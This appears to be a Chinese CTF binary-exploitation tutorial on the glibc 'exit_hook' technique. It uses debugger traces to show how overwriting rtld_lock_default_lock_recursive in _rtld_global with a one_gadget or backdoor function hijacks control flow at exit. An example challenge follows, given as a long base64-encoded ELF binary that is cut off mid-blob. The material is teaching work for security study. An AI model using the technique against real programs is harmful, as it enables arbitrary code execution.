exit\_hook攻击利用

* * *

# exit\_hook攻击

### **适用版本：**

> ​`glibc-2.34`​ 后失效

### **利用条件:**

> *   至少有一次任意写
> *   程序可以结束(可显式触发`exit`​函数 或 主函数由`libc_start_main`​启动且可正常退出)，调用到`_dl_fini`​ 函数

### 利用分析：

exit会对\_\_run\_exit\_handlers进行调用，进而调用到\_dl\_fini

```plain
───────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────
   0x7fcba7830bc5 <exit+5>       pop    rax
   0x7fcba7830bc6 <exit+6>       mov    ecx, 1
   0x7fcba7830bcb <exit+11>      mov    edx, 1
   0x7fcba7830bd0 <exit+16>      lea    rsi, [rip + 0x1a1b41]
   0x7fcba7830bd7 <exit+23>      sub    rsp, 8
 ► 0x7fcba7830bdb <exit+27>      call   0x7fcba7830930                <0x7fcba7830930>

   0x7fcba7830be0 <on_exit>      endbr64 
   0x7fcba7830be4 <on_exit+4>    push   r12
   0x7fcba7830be6 <on_exit+6>    push   rbp
   0x7fcba7830be7 <on_exit+7>    push   rbx
   0x7fcba7830be8 <on_exit+8>    test   rdi, rdi
```

```plain
───────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────
   0x7fcba7830a0a    mov    rdi, qword ptr [rax + 0x20]
   0x7fcba7830a0e    mov    qword ptr [rax + 0x10], 0
   0x7fcba7830a16    mov    esi, ebp
   0x7fcba7830a18    ror    rdx, 0x11
   0x7fcba7830a1c    xor    rdx, qword ptr fs:[0x30]
 ► 0x7fcba7830a25    call   rdx                           <_dl_fini>
   0x7fcba7830a27    jmp    0x7fcba783099a                <0x7fcba783099a>
   0x7fcba7830a2c    nop    dword ptr [rax]
   0x7fcba7830a30    mov    rax, qword ptr [rax + 0x18]
   0x7fcba7830a34    ror    rax, 0x11
   0x7fcba7830a38    xor    rax, qword ptr fs:[0x30]
```

接下来会调用属\_rtld\_global结构体的rtld\_lock\_default\_lock\_recursive 和rtld\_lock\_default\_unlock\_recursive

```plain
0x7f83b9c36d91 <_dl_fini+49>     lea    rax, [rip + 0x1c2c8]          <_rtld_global>
   0x7f83b9c36d98 <_dl_fini+56>     shl    rbx, 4
   0x7f83b9c36d9c <_dl_fini+60>     add    rbx, rax
   0x7f83b9c36d9f <_dl_fini+63>     jmp    _dl_fini+106                <_dl_fini+106>
    ↓
   0x7f83b9c36dca <_dl_fini+106>    lea    rdi, [rip + 0x1cb97]          <_rtld_global+2312>
 ► 0x7f83b9c36dd1 <_dl_fini+113>    call   qword ptr [rip + 0x1d191]     <rtld_lock_default_lock_recursive>
        rdi: 0x7f83b9c53968 (_rtld_global+2312) ◂— 0x0
        rsi: 0x0
        rdx: 0x7f83b9c36d60 (_dl_fini) ◂— endbr64 
        rcx: 0x1

   0x7f83b9c36dd7 <_dl_fini+119>    mov    ecx, dword ptr [rbx + 8]
   0x7f83b9c36dda <_dl_fini+122>    test   ecx, ecx
   0x7f83b9c36ddc <_dl_fini+124>    je     _dl_fini+72                <_dl_fini+72>


=============================================================================================================


   0x7fb213ac5d91 <_dl_fini+49>     lea    rax, [rip + 0x1c2c8]          <_rtld_global>
   0x7fb213ac5d98 <_dl_fini+56>     shl    rbx, 4
   0x7fb213ac5d9c <_dl_fini+60>     add    rbx, rax
   0x7fb213ac5d9f <_dl_fini+63>     jmp    _dl_fini+106                <_dl_fini+106>
    ↓
   0x7fb213ac5dca <_dl_fini+106>    lea    rdi, [rip + 0x1cb97]          <_rtld_global+2312>
 ► 0x7fb213ac5dd1 <_dl_fini+113>    call   qword ptr [rip + 0x1d191]     <execvpe+638>
        rdi: 0x7fb213ae2968 (_rtld_global+2312) ◂— 0x0
        rsi: 0x0
        rdx: 0x7fb213ac5d60 (_dl_fini) ◂— endbr64 
        rcx: 0x1

   0x7fb213ac5dd7 <_dl_fini+119>    mov    ecx, dword ptr [rbx + 8]
   0x7fb213ac5dda <_dl_fini+122>    test   ecx, ecx
   0x7fb213ac5ddc <_dl_fini+124>    je     _dl_fini+72                <_dl_fini+72>
```

> *   一次任意写：直接将rtld\_lock\_default\_lock\_recursive修改成one\_gadget
> *   两次任意写：修改\_rtld\_global+2312可以控制rdi，任意写将rtld\_lock\_default\_lock\_recursive修改成后门函数即可

‍

### 例题-The fastest man

首先这个题没有附件，nc后是一段base64的编码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230918095406-40261b72-55c6-1.png)

```plain
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AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4AhAAAAAAADACEAAAAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAawAAAAAAAAAMAAAAAAAAAIAHQAAAAAAADQAAAAAAAAC0C0AAAAAAABkAAAAAAAAAoB1gAAAAAAAbAAAAAAAAAAgAAAAAAAAAGgAAAAAAAACoHWAAAAAAABwAAAAAAAAACAAAAAAAAAD1/v9vAAAAAJgCQAAAAAAABQAAAAAAAACoBEAAAAAAAAYAAAAAAAAA+AJAAAAAAAAKAAAAAAAAAAEBAAAAAAAACwAAAAAAAAAYAAAAAAAAABUAAAAAAAAAAAAAAAAAAAADAAAAAAAAAIgfYAAAAAAABwAAAAAAAAAwBkAAAAAAAAgAAAAAAAAAUAEAAAAAAAAJAAAAAAAAABgAAAAAAAAAGAAAAAAAAAAAAAAAAAAAAPv//28AAAAAAQAAAAAAAAD+//9vAAAAANAFQAAAAAAA////bwAAAAACAAAAAAAAAPD//28AAAAAqgVAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC4HWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAR0NDOiAoVWJ1bnR1IDUuNC4wLTZ1YnVudHUxfjE2LjA0LjEyKSA1LjQuMCAyMDE2MDYwOQAALnNoc3RydGFiAC5pbnRlcnAALm5vdGUuQUJJLXRhZwAubm90ZS5nbnUuYnVpbGQtaWQALmdudS5oYXNoAC5keW5zeW0ALmR5bnN0cgAuZ251LnZlcnNpb24ALmdudS52ZXJzaW9uX3IALnJlbGEuZHluAC5pbml0AC5wbHQALnBsdC5nb3QALnRleHQALmZpbmkALnJvZGF0YQAuZWhfZnJhbWVfaGRyAC5laF9mcmFtZQAuaW5pdF9hcnJheQAuZmluaV9hcnJheQAuamNyAC5keW5hbWljAC5kYXRhAC5ic3MALmNvbW1lbnQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACwAAAAEAAAACAAAAAAAAADgCQAAAAAAAOAIAAAAAAAAcAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABMAAAAHAAAAAgAAAAAAAABUAkAAAAAAAFQCAAAAAAAAIAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAhAAAABwAAAAIAAAAAAAAAdAJAAAAAAAB0AgAAAAAAACQAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAANAAAAPb//28CAAAAAAAAAJgCQAAAAAAAmAIAAAAAAABgAAAAAAAAAAUAAAAAAAAACAAAAAAAAAAAAAAAAAAAAD4AAAALAAAAAgAAAAAAAAD4AkAAAAAAAPgCAAAAAAAAsAEAAAAAAAAGAAAAAQAAAAgAAAAAAAAAGAAAAAAAAABGAAAAAwAAAAIAAAAAAAAAqARAAAAAAACoBAAAAAAAAAEBAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAATgAAAP///28CAAAAAAAAAKoFQAAAAAAAqgUAAAAAAAAkAAAAAAAAAAUAAAAAAAAAAgAAAAAAAAACAAAAAAAAAFsAAAD+//9vAgAAAAAAAADQBUAAAAAAANAFAAAAAAAAYAAAAAAAAAAGAAAAAgAAAAgAAAAAAAAAAAAAAAAAAABqAAAABAAAAAIAAAAAAAAAMAZAAAAAAAAwBgAAAAAAAFABAAAAAAAABQAAAAAAAAAIAAAAAAAAABgAAAAAAAAAdAAAAAEAAAAGAAAAAAAAAIAHQAAAAAAAgAcAAAAAAAAaAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAHoAAAABAAAABgAAAAAAAACgB0AAAAAAAKAHAAAAAAAAEAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAEAAAAAAAAAB/AAAAAQAAAAYAAAAAAAAAsAdAAAAAAACwBwAAAAAAAGAAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAAAAAAAAAAAiAAAAAEAAAAGAAAAAAAAABAIQAAAAAAAEAgAAAAAAACiAwAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAAI4AAAABAAAABgAAAAAAAAC0C0AAAAAAALQLAAAAAAAACQAAAA